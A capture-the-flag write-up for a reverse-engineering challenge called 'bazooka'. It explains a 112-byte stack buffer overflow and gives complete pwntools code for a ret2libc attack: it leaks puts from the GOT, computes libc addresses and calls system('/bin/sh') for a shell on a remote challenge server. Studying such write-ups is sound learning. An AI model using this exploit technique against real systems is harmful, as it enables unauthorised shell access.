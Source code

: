 # Bazooka - CTF Writeup

**Challenge Name:** bazooka  
**Category:** Reverse Engineering / Binary Exploitation  
**Description:** We have a problem on the station on Mars, we suspect we would be attacked by some hackers so we put a little protection against them.

## Initial Analysis

Today we have a reverse engineering challenge. We'll first run the binary and see what it does.

![alt text](image.png)

We see that it prompts for a secret message and then says: "Try harder!". After that, we are prompted to enter some junk.

Let's analyze the binary in more detail.

![alt text](image-1.png)

The instruction at address `0x004007dd` loads the string `#!@{try_hard3r}` and then compares it to our first input.

Let's go back and input that string.

![alt text](image-2.png)

Perfect! We see that now the program goes into another function which we should crash.

From the initial binary analysis, we can see that if the first input is correct, then the program jumps to the `vuln` function.

## Vulnerability Analysis

Let's analyze the vulnerable function.

![alt text](image-3.png)

Perfect! From here we can see that we have a **112 bytes buffer**. Looking throughout the other functions, we couldn't find any system calls, so this needs to be a **ret2libc** CTF challenge.

## Attack Strategy

Let's define our attack strategy:

1. **Overflow the buffer** to overwrite the return address
   - We need to write 120 bytes (112 bytes buffer + 8 bytes to overwrite RBP)
   - The next bytes will overwrite RIP, allowing us to control the return address

2. **Leak a libc address**
   - We'll leak the `puts` address from the GOT
   - Use a `pop rdi; ret` gadget to load `puts_got` address into RDI
   - Call `puts@plt` to print the address
   - Return to main to continue execution

3. **Calculate libc base and function addresses**
   - Use the leaked `puts` address to calculate libc base
   - Find offsets for `system` and `/bin/sh` string

4. **Execute the final payload**
   - Overflow the buffer again
   - Call `system("/bin/sh")` to get a shell

## Exploit Code

### Part 1: Leaking libc Address

```python
from pwn import *

# Connect to the remote server
p = remote("35.246.235.150", 31981)

# Addresses found through static analysis
puts_got = 0x601018
puts_plt = 0x4005b0
pop_rdi_ret = p64(0x00000000004008f3)
loop_addr = 0x0040079c

print("puts_got:", hex(puts_got))
print("puts_plt:", hex(puts_plt))

# Send the secret message
p.recvuntil(b"message:")
first_message = b"#!@{try_hard3r}"
p.sendline(first_message)

# Prepare the payload to leak puts address
p.recvuntil(b"Message: ")
overflow_buffer = b'a' * 120

payload = overflow_buffer + pop_rdi_ret + p64(puts_got) + p64(puts_plt) + p64(loop_addr)
p.sendline(payload)

# Receive the leaked address
a = p.recvline()  # hacker alert message
leaked = p.recvline()
print("libc puts addr:", repr(leaked))
```

**Note:** The ROP gadget was found by running:
```bash
ROPgadget --ropchain --binary <binary_name> | grep "pop rdi"
```

### Part 2: Exploiting with system()

After obtaining the `puts` address, we found the libc version to get the correct function offsets.

```python
# Parse the leaked address
leaked = leaked.strip()
if len(leaked) < 8:
    leaked = leaked.ljust(8, b"\x00")

puts_addr = u64(leaked)
print("puts_addr:", hex(puts_addr))

# Libc offsets (found using libc database)
system_offset = 0x4f550
str_bin_sh = 0x1b3e1a
puts_offset = 0x80aa0

# Calculate libc base
libc_base = puts_addr - puts_offset
print("libc base:", hex(libc_base))

# Calculate target addresses
bin_sh_addr = libc_base + str_bin_sh
system_addr = libc_base + system_offset

print("bin_sh_addr:", hex(bin_sh_addr))
print("system offset:", hex(system_addr))

# Send the secret message again
p.sendline(first_message)

# Prepare the final payload
simple_ret = 0x0000000000400596  # Stack alignment gadget

payload = overflow_buffer + pop_rdi_ret + p64(bin_sh_addr) + p64(simple_ret) + p64(system_addr)
p.sendline(payload)

# Get shell
p.interactive()
```

## Key Techniques

- **Buffer Overflow:** Exploiting a 112-byte buffer to overwrite the return address
- **ret2libc:** Bypassing missing system calls by leveraging libc functions
- **ASLR Bypass:** Leaking libc addresses to calculate function locations at runtime
- **ROP Chains:** Using Return-Oriented Programming to control program flow

## Flag

After running the exploit successfully, we get a shell and can retrieve the flag from the remote system!